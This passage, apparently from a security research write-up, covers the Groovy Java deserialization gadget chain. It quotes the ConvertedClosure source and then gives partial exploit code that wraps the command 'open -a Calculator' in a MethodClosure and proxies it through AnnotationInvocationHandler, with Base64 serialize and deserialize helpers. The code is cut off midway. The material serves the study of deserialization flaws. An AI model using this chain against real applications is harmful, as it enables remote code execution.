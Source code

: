 ```java
public class ConvertedClosure extends ConversionHandler implements Serializable {
    ......
    public Object invokeCustom(Object proxy, Method method, Object[] args) throws Throwable {
        return this.methodName != null && !this.methodName.equals(method.getName()) ? null : ((Closure)this.getDelegate()).call(args);
    }
}
```

## EXP
```java
package org.h3rmesk1t.Groovy;

import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/12 2:01 pm
 */
public class GroovyExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // Encapsulate the object to be executed
        MethodClosure methodClosure = new MethodClosure("open -a Calculator", "execute");
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure, "entrySet");

        Class<?> c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        // Create a dynamic proxy class instance of ConvertedClosure
```